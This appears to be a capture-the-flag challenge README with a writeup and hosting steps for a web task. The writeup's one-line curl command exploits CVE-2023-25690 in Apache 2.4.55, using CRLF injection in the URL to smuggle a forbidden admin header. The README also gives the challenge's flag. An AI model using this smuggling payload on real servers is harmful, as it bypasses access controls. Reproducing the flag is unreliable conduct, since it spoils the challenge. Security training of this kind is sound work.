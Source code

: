 # Willy Wonka Web
Description:
```markdown
Welcome to the world of web! Can you get the flag?

https://wonka.chal.cyberjousting.com

[wonka.zip]
```

**Author**: `Legoclones`

## Writeup
This problem requires exploiting CVE-2023-25690 in Apache 2.4.55 which leads to request smuggling from a CRLF injection. Since NodeJS doesn't support multiple HTTP requests in a single TCP stream (from the HTTP/1.1 spec), you need to smuggle a "forbidden" header that Apache unsets/blocks. The following one-liner is the solution:

`curl 'https://wonka.chal.cyberjousting.com/name/a%20HTTP/1.1%0d%0aa:%20admin%0d%0aX-Bad:'`

**Flag** - `byuctf{i_never_liked_w1lly_wonka}`

## Hosting
This challenge should be a Docker container that runs Apache as a front-end on port 5000. All the proper files are included in here. The command to build the docker container is (when located inside of this directory):

```bash
docker compose up -d
```

To stop the challenge:
```bash
docker compose down
```
